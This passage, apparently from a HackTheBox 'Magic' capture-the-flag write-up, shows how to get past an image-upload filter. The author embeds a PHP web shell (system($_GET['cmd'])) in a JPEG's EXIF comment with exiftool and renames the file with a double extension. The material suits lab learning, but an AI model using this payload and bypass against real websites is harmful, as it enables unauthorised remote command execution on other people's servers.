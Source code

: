 ![](https://github.com/Strawhack/HackTheBox/blob/master/Magic/Image/6.png)

We know the location where files get saved. Trying to upload a PHP Reverse Shell we get the following error.

![](https://github.com/Strawhack/HackTheBox/blob/master/Magic/Image/7.png)



It seems there is some kind of filter. We can bypass this by embedding PHP code in an image using tool named __"ExifTool"__.

```css
strawhack@linux:~/Desktop$exiftool -Comment='<?php echo "<pre>"; system($_GET["cmd"]); _halt_compiler() ?>' kenshin.jpeg
1 image files updated

strawhack@linux:~/Desktop$ls
kenshin.jpeg  kenshin.jpeg_original

strawhack@linux:~/Desktop$ mv kenshin.jpeg kenshin.php.jpeg
```
